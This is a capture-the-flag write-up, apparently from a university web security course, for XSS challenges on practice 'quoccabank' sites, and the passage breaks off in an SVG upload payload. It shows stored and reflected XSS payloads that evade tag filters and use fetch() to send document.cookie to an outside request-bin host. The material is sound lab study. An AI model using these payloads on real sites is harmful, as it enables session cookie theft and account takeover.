 # Topic 4 Challenges

- [x] report.quoccabank.com (1)
- [x] csp.quoccabank.com (4)
- [x] profile.quoccabank.com (1)
- [x] science-today.quoccabank.com (2)
- [x] sturec.quoccabank.com (2)
- [x] support-v2.quoccabank.com

- https://owasp.org/www-community/xss-filter-evasion-cheatsheet

### science-today.quoccabank.com

- COMP6443{REF_XSS_SO_SIMPLE_STORED.ejUzMTI3OTk=.TaLUiyWLlJoiQPIE8pZqLg==}
  - We can inject an XSS payload through the comments. However, there appears to be a WAF in place to detect script tags. However, capitalising the tags bypass the filter. Payload is shown below. Note, escape the HTML tags where the script payload is going to be inserted.
  
    - We are using request bin to view any incoming request made to the URL.
  
    ```html
    </div><SCRIPT>fetch(`https://enxwgp951veoi.x.pipedream.net?cookie=${document.cookie}`)</SCRIPT><div>
    ```
  
  - This should inject the page with the XSS payload. Once injected, report the page that contains the payload -> Send POST request with XSS already stored from `/report` route.
  
  - It appears that when reporting a webpage, it has the legitimate cookies used and appears to load the page in the backend somewhere. This appears to be the case as once the page with the XSS payload is reported, then a request is sent to request bin containing the real cookies.
  
- COMP6443{REF_XSS_SO_SIMPLE.ejUzMTI3OTk=.HSMzYds8NxbX19OkMSr8Sg==}

  - When searching for a query, it embeds the search term in the HTML page. It seems like there is a word filter for tag names. Use the following payload to escape and embed an XSS payload. Search using this payload below in the search field.

    ```html
    </h3><SCR<SCRIPT>IPT>fetch(`https://enxwgp951veoi.x.pipedream.net?cookie=${document.cookie}`)</SC</SCRIPT>RIPT><h3>
    ```

  - Then report page to execute payload on the backend to execute that payload in the backend that contains the real cookies. Check request bin for flag in the URL param cookies.

### profile.quoccabank.com

- COMP6443{SVG_XSS_SO_MEDIUM.ejUzMTI3OTk=.ROnCk7ZTyclkbx+HPQ9V2g==}

  - Seems like we can upload a SVG file - include the XSS payload within it

    ```html
    <?xml version="1.0" standalone="no"?>
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
    